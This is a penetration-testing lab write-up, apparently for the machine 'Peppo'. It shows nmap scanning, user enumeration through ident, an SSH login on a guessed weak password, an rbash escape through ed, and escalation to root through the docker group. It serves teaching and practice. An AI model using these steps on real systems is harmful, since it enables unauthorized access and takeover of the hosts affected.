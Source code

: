 # Peppo

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.201.60 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-15 11:59 +08
Nmap scan report for 192.168.201.60
Host is up (0.17s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT      STATE  SERVICE
22/tcp    open   ssh
113/tcp   open   ident
5432/tcp  open   postgresql
8080/tcp  open   http-proxy
10000/tcp open   snet-sensor-mgmt
```

Port 113 was something new.

### Ident --> SSH

I wanted to enumerate the Ident instance running on port 113 first. We can run `ident-user-enum` to check which users are present:

```
$ ident-user-enum 192.168.201.60 22 113 5432 8080 10000
ident-user-enum v1.0 ( http://pentestmonkey.net/tools/ident-user-enum )

192.168.201.60:22       root
192.168.201.60:113      nobody
192.168.201.60:5432     <unknown>
192.168.201.60:8080     <unknown>
192.168.201.60:10000    eleanor
```

`eleanor` was one of the users. I just tried some weak credentials, and it turns out `eleanor` was the SSH password.&#x20;

<figure><img src="../../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Shell Escape

`id` doesn't work for some reason, so we can check our `$PATH` variable:

```
eleanor@peppo:~$ echo $PATH
/home/eleanor/bin
eleanor@peppo:~$ ls /home/eleanor/bin
chmod  chown  ed  ls  mv  ping  sleep  touch
```

We cannot change the `$PATH` environment variable:

```
eleanor@peppo:~$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games
-rbash: PATH: readonly variable
```

However, we can use `ed` to spawn a better shell and change this.&#x20;

<figure><img src="../../../.gitbook/assets/image (7) (12).png" alt=""><figcaption></figcaption></figure>

### Docker Group --> Root

The user is part of the `docker` group, which means we can easily get `root`. First check the images present:

```
$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
redmine             latest              0c8429c66e07        3 years ago         542MB
postgres            latest              adf2b126dda8        3 years ago         313MB
```

I'll use `redmine` for the exploit to spawn a `root` shell:

<figure><img src="../../../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>
